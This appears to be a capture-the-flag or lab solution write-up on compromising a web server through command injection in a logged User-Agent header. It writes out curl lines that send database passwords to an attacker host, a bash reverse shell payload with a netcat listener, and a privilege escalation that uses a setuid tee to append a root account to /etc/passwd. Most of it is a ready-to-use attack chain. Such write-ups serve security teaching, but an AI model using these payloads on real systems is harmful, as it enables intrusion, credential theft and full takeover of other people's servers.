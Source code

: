 # Solution

While `log_message.replace('"', '\\"')` prevents attacks in the form of

    User-Agent: "; curl http://attacker.server/$DB_PASSOWRD/$DBPASSWORD

it does not prevent spawning of subshells. So, what an attacker could do is:

    User-Agent: $(curl http://attacker.server/$DB_PASSOWRD/$DBPASSWORD)

or

    User-Agent: `curl http://attacker.server/$DB_PASSOWRD/$DBPASSWORD`

We can then use this to spawn a reverse shell with the help of bash. We specify `/bin/bash -c 'command'`, because out of the most built-in shells, only bash can handle the pseudofile `/dev/tcp`.

So, the header is:

    User-Agent: $(/bin/bash -c '/bin/bash -i >& /dev/tcp/ATTACKER_IP/LPORT 0>&1')

In another terminal we start a netcat listener:

```bash
  $ nc -l -vv -p $LPORT
```

Using `curl` we can send the request to the server:

```bash
  $ curl --insecure -A "\`/bin/bash -c '/bin/bash -i >& /dev/tcp/$ATTACKER_IP/$LPORT 0>&1'\`" https://SERVERADDRESS/
```

Going back to the netcat terminal, we see that we now have a shell.

A script that automates this process is available.

Unfortunately, checking the output of `id`, we are not running as root. The work is not done!

## Privilege escalation

We try our luck with finding binaries with the `setuid` bit set:

```shell
  $ find / -perm -u=s -type f 2>/dev/null
```

An unusual entry appears - `/usr/bin/tee`. This means that we are able to write to any read-only file on the system. Such file of interest is `/etc/passwd`, where user account information is stored. More importantly, we can add a new root user account by appending a correctly formatted line to the file.

We generate a new account by:

1. We get a hashed password `baddevs` for the password file with openssl:

    ```shell
      $ openssl passwd -1 -salt NaCl baddevs
    ```

2. We add a new root user account `badpractices` by `echo`ing and piping to `tee -a /etc/passwd`:

    ```shell
      $ echo 'badpractices:$1$NaCl$EQJvHZYer2J3/8py1YA2m1:0:0:root:/root:/bin/bash' | tee -a /etc/passwd
    ```

We can switch to the new account with `su badpractices -` and entering `baddevs` as the password. We have full control of the web server system, so it's time to have fun!
